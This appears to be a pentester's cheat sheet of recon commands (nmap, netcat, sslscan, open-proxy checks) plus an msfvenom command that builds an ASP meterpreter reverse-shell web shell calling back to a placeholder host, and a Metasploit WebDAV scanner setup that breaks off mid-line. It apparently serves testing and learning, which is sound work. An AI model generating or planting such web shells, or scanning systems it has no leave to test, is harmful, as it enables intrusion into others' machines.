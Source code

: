 # Commands
  - nmap
    ~~~
    nmap -Pn -p80,443 [IP range] --open
    ~~~

  - Parse domains from html file
    ~~~
    grep -o '[A-Za-z0-9_\.-]*\.*HOSTNAME' index.html | sort -u
    cat index.html | grep -o 'http[s]://[^"]*' | cut -d "/" -f 3 | sort -u > list.txt
    ~~~
  
  - connect
    - netcat
      ~~~
      echo -ne "GET / HTTP/1.0\n\n" | nc [IP addr] [Port]
      ~~~

  - SSL check
    ~~~
    sslscan [domain]:[port]
    ~~~

  - Open Proxy check
    - nc ref
      - https://qiita.com/yasuhiroki/items/d470829ab2e30ee6203f
    - HTTP
      ~~~
      ncat -v sample.domain 80
      ...
      GET http://www.ugtop.com/spill.shtml HTTP/1.0
      ~~~

    - HTTPS
      ~~~
      ncat -v sample.domain 443 --ssl
      ...
      GET http://rfi.nessus.org/check_proxy.html HTTP/1.0

      GET https://www.ugtop.com/spill.shtml HTTP/1.0
      ~~~

    - Webdav

## Web shell
  - https://netsec.ws/?p=331
  - ASP
    ~~~
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
    ~~~

# Exploitation
  - Metasploit
    - Webdav
      ~~~
      use auxiliary/scanner/http/webdav_scanner
      setg RHOSTS 10.11.1.1-254
      setg 
      ~~~


